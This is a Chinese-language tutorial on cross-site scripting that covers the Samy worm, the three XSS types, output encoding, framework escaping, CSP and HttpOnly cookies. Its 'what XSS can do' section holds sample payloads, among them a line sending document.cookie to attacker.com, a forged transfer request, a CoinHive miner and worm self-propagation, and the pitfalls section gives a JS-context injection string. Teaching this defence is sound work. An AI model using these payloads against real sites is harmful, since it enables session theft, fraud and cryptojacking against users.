

# XSS跨站脚本攻击：存储型、反射型与DOM型防御策略



---

> 📌 **关注「程序员臻叔」，获取更多硬核技术干货**


---

2005年，MySpace还是全球最大的社交网站。一个叫Samy Kamkar的19岁年轻人写了一段JavaScript代码，放在自己的MySpace个人主页里。代码的逻辑很简单：访问这个页面的人，会自动把Samy加为好友，然后这段代码会复制到访问者的主页里。

结果：24小时内，Samy的好友从几百人涨到100万——MySpace当时全部用户的约1/5。MySpace不得不下线清理，Samy被FBI请去喝茶。

这就是"Samy Worm"——史上第一个XSS蠕虫。它证明了：一段不到4KB的JavaScript，可以在一天内感染百万用户。

## 核心结论

1. **XSS的本质**：攻击者把恶意脚本注入到正常页面中，在其他用户的浏览器里执行
2. **三种类型**：存储型（最危险，持久化）、反射型（需诱导点击）、DOM型（纯前端，不经过服务器）
3. **核心防御是输出编码**：把`<script>`变成`&lt;script&gt;`，浏览器当文本显示不当代码执行
4. **CSP是深度防御**——即使编码漏了，CSP也能阻止未授权脚本执行
5. **HttpOnly Cookie是最后的保险**：即使XSS执行了，JavaScript也读不到Cookie

## 深度拆解

### 三种XSS的区别

**存储型XSS（Stored XSS）**：
```
攻击者 → 评论区提交恶意内容 → 存入数据库 → 所有访问该页面的用户浏览器执行恶意脚本
```
最危险——一次注入，持久生效，所有访问者中招。评论区、论坛帖子、用户昵称是重灾区。

**反射型XSS（Reflected XSS）**：
```
攻击者构造恶意URL → 诱骗用户点击 → 服务器把URL参数原样返回到页面 → 用户浏览器执行恶意脚本
```
不持久，需要诱导用户点击特制链接。常见于搜索结果页：`search?q=<script>...</script>`。

**DOM型XSS（DOM-based XSS）**：
```
攻击者构造恶意URL → 前端JavaScript读取URL参数 → 直接写入DOM → 恶意脚本执行
```
完全在前端发生，不经过服务器。服务器返回的HTML没问题，是前端JS处理不当导致的。

```javascript
// DOM型XSS示例
// URL: https://example.com/page#

// 危险写法: 直接把URL hash写入DOM
document.getElementById('content').innerHTML = location.hash.slice(1);

// 安全写法: 使用textContent
document.getElementById('content').textContent = location.hash.slice(1);
```

### XSS能做什么

脚本运行在当前页面上下文中，可以：

```javascript
// 1. 偷Cookie（如果没有HttpOnly）
fetch('https://attacker.com/steal?cookie=' + document.cookie);

// 2. 伪造用户操作（自动转账、发帖、改密码）
fetch('/api/transfer', {
  method: 'POST',
  body: JSON.stringify({to: 'attacker', amount: 10000})
});

// 3. 挖矿
var miner = new CoinHive.Anonymous('site_key');
miner.start();

// 4. 蠕虫传播（像Samy Worm一样自我复制）
fetch('/api/profile', {
  method: 'POST',
  body: JSON.stringify({bio: '<script>/* 蠕虫代码 */</script>'})
});
```

### 输出编码：最核心的防御

根据注入位置不同，需要不同的编码方式：

```java
// HTML上下文: 把 < > " ' 转义
// <script> → &lt;script&gt;
String safe = HtmlUtils.htmlEscape(userInput);

// JavaScript上下文: 把 " ' \ 转义
// " → \"
String safe = StringEscapeUtils.escapeEcmaScript(userInput);

// URL上下文: URL编码
//空格 → %20
String safe = URLEncoder.encode(userInput, "UTF-8");

// CSS上下文: CSS转义
// ( → \28
String safe = CSS.escape(userInput);
```

**编码上下文不能混用**——HTML编码不能防JavaScript上下文的注入，反之亦然。这就是为什么XSS防御容易遗漏：你需要对每个注入点判断上下文，选对编码方式。

### 现代框架的自动防护

React、Vue等现代框架默认对插入的文本做HTML编码：

```jsx
// React: 自动转义，安全
<div>{userInput}</div>  // <script> → &lt;script&gt;

// 危险: dangerouslySetInnerHTML 绕过转义
<div dangerouslySetInnerHTML={{__html: userInput}} />  // 不安全!
```

```vue
<!-- Vue: 自动转义，安全 -->
<div>{{ userInput }}</div>

<!-- 危险: v-html 绕过转义 -->
<div v-html="userInput"></div>  <!-- 不安全! -->
```

框架帮你做了大部分工作，但`dangerouslySetInnerHTML`、`v-html`、`innerHTML`这些"逃生舱"仍然是注入入口。全局搜索这些关键字，确认每个使用点都做了输入净化。

### CSP：内容安全策略

CSP通过HTTP头限制页面可以加载和执行哪些资源：

```nginx
# 严格CSP策略
Content-Security-Policy: 
  default-src 'self';                    # 默认只允许同源资源
  script-src 'self' 'nonce-abc123';      # 只允许同源+指定nonce的脚本
  style-src 'self' 'unsafe-inline';      # 允许内联样式
  img-src 'self' data: https:;           # 允许同源+data+https图片
  connect-src 'self' https://api.example.com;  # AJAX只允许指定域
  object-src 'none';                     # 禁止Flash/Java插件
  base-uri 'self';                       # 限制base标签
  frame-ancestors 'none';                # 禁止被iframe嵌套
```

即使XSS注入了`<script>`标签，如果脚本没有正确的nonce，浏览器也不会执行。

### HttpOnly Cookie

```nginx
# 设置Cookie为HttpOnly
Set-Cookie: session_id=abc123; HttpOnly; Secure; SameSite=Strict
```

- `HttpOnly`：JavaScript的`document.cookie`读不到这个Cookie
- `Secure`：只在HTTPS下发送
- `SameSite=Strict`：防止CSRF

即使XSS成功执行，攻击者也偷不到Session Cookie——这是最后一道保险。

## 实战要点

### 工程落地

**富文本过滤**：如果业务需要用户输入HTML（如博客编辑器），用白名单过滤库（如DOMPurify），只允许安全标签和属性。

```javascript
import DOMPurify from 'dompurify';

const clean = DOMPurify.sanitize(dirtyHtml, {
  ALLOWED_TAGS: ['p', 'br', 'strong', 'em', 'a', 'img', 'code', 'pre'],
  ALLOWED_ATTR: ['href', 'src', 'alt'],
  FORBID_ATTR: ['style', 'onerror', 'onload', 'onclick']  // 禁止事件属性
});
```

**CSP违规报告**：配置`report-uri`，浏览器会把CSP违规情况上报到你的服务器，帮你发现遗漏的注入点。

### 臻叔踩坑笔记

1. **只防了HTML上下文忘防JS上下文**——`var name = '${userInput}'`，用户输入`'; alert(1); //`，单引号没转义，照样注入。每个上下文都要对应编码
2. **富文本编辑器直接存HTML**：用户可以粘贴`<script>`标签。必须用白名单过滤（DOMPurify），不能用黑名单（你永远列不全危险标签）
3. **JSON API返回用户数据没编码**：前端拿到后直接innerHTML渲染，等于后端没防+前端没防。API返回JSON是正常的，前端渲染时必须用安全方式
4. **CSP太宽松**。`script-src 'unsafe-inline'`等于没有CSP，内联脚本照样执行。生产环境应该用nonce或hash，不用unsafe-inline
5. **以为React/Vue就安全**：`dangerouslySetInnerHTML`和`v-html`绕过框架防护。全局搜索这些API，每个使用点都要审计

### 一句话总结

XSS的本质是用户输入被当作HTML/JS执行：输出编码是核心防御（每个上下文选对编码方式），CSP和HttpOnly是深度防御，现代框架自动转义但不能依赖框架兜底。

---

### 🎯 觉得有帮助？关注「程序员臻叔」


---
